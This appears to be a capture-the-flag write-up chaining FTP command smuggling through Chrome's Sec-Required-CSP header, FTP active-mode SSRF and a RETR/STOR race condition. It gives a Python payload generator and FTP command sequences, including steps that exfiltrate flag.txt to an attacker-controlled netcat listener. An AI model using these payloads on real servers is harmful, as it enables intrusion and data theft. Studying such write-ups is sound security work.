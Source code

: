 # Outline
- bug 1: FTP server reads commands every time it receives a data chunk (tcp segment) instead of splitting on CRLF, allowing us to send multiple FTP commands without needing CRLFs
- bug 2: chrome's Sec-Required-CSP header lets you send arbitrary-length payloads, so we can send commands to the FTP server via Cross-Protocol Scripting
- bug 3: FTP server allows active mode. under active mode, you can use the PORT and RETR commands to SSRF
- bug 4: race condition when doing RETR -> STOR, allowing us to read SSRF output (making it non-blind)


# Step 1 - Cross-Protocol Scripting
1. Abuse bug 1 & 2 to send commands to FTP server
2. because the server processes commands on every incoming data tcp segment, we can send multiple commands without needing to inject CRLFs. Simply send a large enough request, and it will be processed in multiple chunks due to tcp segmentation. The splitting boundary is every 65536 bytes
3. although we can't send POST requests due to no script execution, we can send a massive request via the Sec-Required-CSP header
4. For example:
```py
framecsp = lambda url, csp: f"<iframe src='{url}' csp='{csp}'></iframe>"
gen_html = lambda csp: framecsp(f"http://127.0.0.1:{FTP_PORT}/?csp", csp) 
pad = lambda x: x + " "*(65536 - len(x))
payload1_csp = "a" + " "*65536 + \
pad(f"STAT") + \
pad(f"QUIT") + "X"
gen_html(payload1_csp)
```

# Step 2 - Use STOR to upload a file containing a HTTP req
1. We want to use bug 3 to SSRF, but can't directly hit the /ssrf endpoint because we need to construct a valid HTTP req, so we first upload a file containing one. The file needs to be relatively large (~100kb?) so that we can trigger the race condition
2. nc -l $YOUR_LISTENING_PORT
3. FTP Payload:
    1. N/A -- this contains the http req headers, invalid cmd
    2. USER your_username
    3. PASS your_password
    4. EPRT |1|$YOUR_IP|$YOUR_LISTENING_PORT
    5. STOR http_req.txt
4. send a file containing a large http req to /ssrf, e.g.
```http
GET /ssrf HTTP/1.0
Sec-Pro-Hacker: 1

# [100k bytes of garbage here]
```

# Step 3 - SSRF and use race condition to save a file containing the HTTP output
1. Utilize bugs 3 & 4 to hit /ssrf and read flag
2. The FTP server does not close the socket until the input file (`http_req.txt`) is finished being read. Therefore, if it is very large, you can execute the STOR command to read the output before it is closed.
3. FTP Payload:
    1. N/A -- this contains the HTTP req headers, invalid command
    2. USER username
    3. PASS password
    4. EPRT |1|127.0.0.1|1337
    5. RETR http_req.txt
    6. STOR flag.txt

# Step 4 - Use RETR to read file flag.txt
1. Same idea as step 2, but now we just want to exfil flag.txt
2. nc -l $YOUR_LISTENING_PORT
3. FTP Payload:
    1. N/A -- this contains the http req headers, invalid cmd
    2. USER your_username
    3. PASS your_password
    4. EPRT |1|$YOUR_IP|$YOUR_LISTENING_PORT
    5. RETR flag.txt
